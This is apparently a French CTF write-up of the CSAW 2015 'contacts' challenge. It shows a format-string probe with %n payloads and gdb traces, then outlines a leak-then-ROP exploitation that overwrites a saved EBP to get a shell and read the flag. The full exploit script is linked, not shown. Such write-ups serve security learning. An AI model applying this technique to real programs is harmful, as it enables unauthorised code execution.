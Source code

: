 ```yaml
---
title: CSAW-preq 2015 - Contacts (exploitable 250)
date: 2015-09-24
tags: ctf,exploit,csaw2015
author: Tosh
layout: post
---
```


Voici un petit write-up pour le challenge 'contacts' du CSAW ctf 2015.


### **Analyse**

```
$ rop-tool info ./exploit250
     ===== INFOS =====
    Filename                 ./repo/CTF/CSAW_preq_2015/exploit250
    File format              ELF32
    Architecture             x86
    Endianess                little endian
    Entry point              0x80485c0
    Loadables segments       2
    Sections                 28

    NX bit                   enabled
    SSP                      enabled
    Relro                    partial
    RPATH                    no rpath
    RUNPATH                  no runpath
    PIE                      disabled

```

Pour ce challenge, je suis resté sur de l'analyse dynamique.

```
 $ ./contacts
 Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>>
```

On a donc un programme qui permet de créer/détruire/éditer/afficher des contacts.

On découvre assez vite une vulnérabilité de type 'format string' dans la fonction permettant d'afficher les contacts :

```
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 1
    Contact info:
            Name: A
    [DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
            Enter Phone No: 0000000000
            Length of description: 10
            Enter description:
                    %x%x%x
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 4
    Contacts:
            Name: A
            Length 10
            Phone #: 0000000000
            Description: 9ee9358ecf4620b0
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>>
```

On remarque, qu'en écrivant à l'adresse du 6ème argument, on est capable de réécrire un saved-ebp, et donc de rediriger le flux d'exécution si on arrive à avoir des données sous notre controle sur la stack :

```
$ gdb ./CTF/CSAW_preq_2015/exploit250
    Reading symbols from ./CTF/CSAW_preq_2015/exploit250...(no debugging symbols found)...done.
    gdb-peda$ r
    Starting program: /home/tosh/git/tosh-codes/repo/CTF/CSAW_preq_2015/exploit250
    warning: Cannot call inferior functions, Linux kernel PaX protection forbids return to non-executable pages!
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 1
    Contact info:
            Name: A
    [DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
            Enter Phone No: 0000000000
            Length of description: 100
            Enter description:
                    AAAA%6$n
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
>>> 4
    Contacts:
            Name: A
            Length 100
            Phone #: 0000000000
            Description: AAAA
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 5
    Thanks for trying out the demo, sadly your contacts are now erased

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x0
    EBX: 0x0
    ECX: 0xf27e7da8
    EDX: 0xf27e8870
    ESI: 0x1
    EDI: 0xf27e7000
    EBP: 0x4
    ESP: 0xfdc022f0
    EIP: 0x80487d1
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x80487d1
    [------------------------------------stack-------------------------------------]
    Invalid $SP address: 0xfdc022f0
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x080487d1 in ?? ()
    gdb-peda$ x/2i $eip
    => 0x80487d1:   leave
       0x80487d2:   ret
    gdb-peda$ x $ebp
       0x4: Cannot access memory at address 0x4
```


### *Exploitation*


#### 0x00

Grace à la format string, je leak l'adresse de la stack (6ème argument) et de la libc (2nd argument)

#### 0x01

Je créer un contact afin de mettre des données que je controle sur la stack. Il s'agit d'une rop chain, faisant simplement un system("sh").

Afin d'augmenter les chances de retomber dessus, je rajoute au début un rop sled (une suite de ret).

#### 0x02

Ensuite, je réécrit les 2 bytes de poids faible du saved-ebp (6ème argument présent sur la stack), afin de faire pointer esp sur ma rop-chain au moment du ret.

#### 0x03

Il nous reste plus qu'à quitter le programme, afin que notre fonction retourne, et retombe sur notre rop-chain...


La difficulté majeure à laquelle j'ai été confronté, était que je n'avais aucune idée de quelle libc était utilisée sur le serveur distant...

Mais après quelques essais, j'ai tout de même réussi à retrouver les bons offsets principalement grâce à ce répo github : [libc-database](https://github.com/niklasb/libc-database)


```
    $ perl sploit.pl
    [+] Stack: 0xfff3e788
    [+] Libc: 0xf7604000
    [+] puts: 0xf7668c10
    [+] system: 0xf7643cd0
    [+] Enjoy your shell !
    $ ls
    contacts_54f3188f64e548565bc1b87d7aa07427
    flag
    $ cat flag
    flag{f0rm47_s7r1ng5_4r3_fun_57uff}
```


[exploit](https://github.com/t00sh/ctf/blob/master/csaw_preq_2015/exploit250.pl)

[binaire](https://repo.t0x0sh.org/CTF/CSAW_preq_2015/exploit250)